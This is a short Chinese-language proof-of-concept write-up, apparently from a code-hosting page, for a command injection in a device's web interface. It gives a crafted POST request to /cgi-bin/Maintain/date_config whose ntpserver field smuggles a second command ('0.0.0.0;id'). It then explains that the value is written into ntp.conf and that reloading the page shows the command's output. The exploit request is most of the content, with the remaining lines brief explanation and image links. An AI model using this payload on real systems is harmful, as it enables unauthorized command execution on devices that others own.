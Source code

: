 构造请求

```
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![image-20230314085313769](images/image-20230314085313769.png)

成功写入 ntp.conf 文件为 0.0.0.0;id, 再次访问该页面就可以获取命令执行结果

![image-20230314085338637](images/image-20230314085338637.png)

交互处可进行命令拼接造成注入

![image-20230314085353610](images/image-20230314085353610.png)